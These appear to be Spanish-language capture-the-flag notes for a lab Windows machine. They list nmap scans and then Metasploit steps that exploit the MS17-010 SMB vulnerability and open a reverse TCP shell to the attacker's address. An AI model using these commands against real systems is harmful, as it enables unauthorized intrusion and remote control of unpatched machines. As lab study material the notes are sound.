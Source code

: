 Parte 1:

nmap 10.10.38.140 --scaneo de la ip

nmap -vv -sV -A -O -sC -p 135,139,445,3389 10.10.38.140 --scaneo de los purtos abiertos y sistema operativo

nmap --script smb-vuln-ms17-010 -p445 10.10.38.140 --scaneo para saber si la maquina es vulnerable a este excploit tras la verison del sistema operativo\\

estos 3 pasos se pueden hacer asi: ```nmap -vv -sV -sC -O -A -p445 -T4 --script vuln <ip>```

Parte 2:

usamos msfconsole

search ms17 --para buscar el exploit en metasplit y poder usarlo

use 0 --es el exploit que necesitamos

show options -- para ver que opciones debemos ajustar como el RHOSTS

set RHOSTS 10.10.38.140 --apra poder atacar a la maquina

set LHOST tu ip

set payload windows/x64/shell/reverse_tcp --lo dice el ejercicio

run --ejecutamos el exploit

